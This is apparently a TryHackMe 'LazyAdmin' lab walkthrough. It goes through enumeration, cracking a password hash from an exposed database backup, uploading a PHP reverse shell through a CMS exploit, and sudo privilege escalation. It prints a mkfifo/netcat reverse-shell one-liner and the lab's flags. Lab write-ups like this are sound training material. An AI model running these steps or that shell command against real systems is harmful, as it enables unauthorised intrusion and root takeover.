






Room link: https://tryhackme.com/r/room/lazyadmin

I'll start everything by nmap scan, and on background I'll run gobuster

```bash
nmap -oN nmap.txt -Pn -T4 -sC -sV -p- 10.10.19.199 
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
```bash
gobuster dir -o gobuster.txt -u 10.10.19.199 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.19.199/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```

Going to the server address, we are shown the default apache site - so we won't find anything there

But in gobuster output I saw, that we have something in `/content/`



This looks interesting, CMS that can be further scanned with gobuster

```bash
gobuster dir -o gobuster2.txt -u http://10.10.19.199/content/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.19.199/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.19.199/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.19.199/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.19.199/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.19.199/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.19.199/content/js/]
```

After browsing through it all for a while, I noticed that:
- `/content/as` leads to the login interface for this cms
- `/content/inc` contains some interesting files

And bingo, looking at `/content/inc` I found an interesting folder named `mysql_backup` which contains database. I'm downloading it because it may contain something interesting

I opened this file, and I found the user:
- named: `manager` 
- and his password: `42f749ade7f9e195bf475f37a44cafcb`

I decrypted this hash by pasting it on [crackstation](https://crackstation.net/) and it came up with a password of `Password123`

I'll try logging into ssh with these credentials
```
Permission denied, please try again.
```
well, it didn't let me in ;/

In this case, I'll enter the `/as` directory, which I found earlier



After entering the manager's login and password, I was able to get on the CMS

By the way, I found something that may be of interest to get a reverse shell



After a quick google on this, on exploitdb I found an interesting exploit that allows me to upload a reverse shell
https://www.exploit-db.com/exploits/40716

First, I prepared myself a file to upload by changing the port, ip and name to `shell.php5` (because it wouldn't upload with `.php` extension): https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

In the next terminal window, I immediately enabled netcat listening

Back to the previous terminal window, I did:
```bash
chmod +x exploit.py
```
```
python exploit.py
```


I went to this link, and great, I got access to the shell



I immediately did `python --version` and when I confirmed the existence of python on the server, I spawned a python shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

I also did a `cat /etc/passwd` to check for some interesting users

`itguy` caught my eye, I checked his home dir, and found the user flag
```
THM{63e5bce9271952aad1113b6f1ac28a07}
```

After getting the user flag, I started looking for opportunities to escalate permissions from `www-data` to something more interesting. I started with the `sudo -l` command, which showed me something I was interested in
```
User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Doing `cat /home/itguy/backup.pl` I noticed that this file points to another file -> `/etc/copy.sh`
```bash
cat /home/itguy/backup.pl
```
```perl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

```

I also checked this file
```bash
cat /etc/copy.sh
```

Well, and it looks like it includes a reverse shell to help us get shell root

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

I slightly took the liberty of modifying it by changing the ip, I also fired up a new window in the terminal and enabled netcat listening

I returned to the reverse shell window and ran the `backup.pl` script via sudo

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

I went back to the listening window



And success, now just do `cd /root` and obtainin the root flag using `cat root.txt`

```
THM{6637f41d0177b6f37cb20d775124699f}
```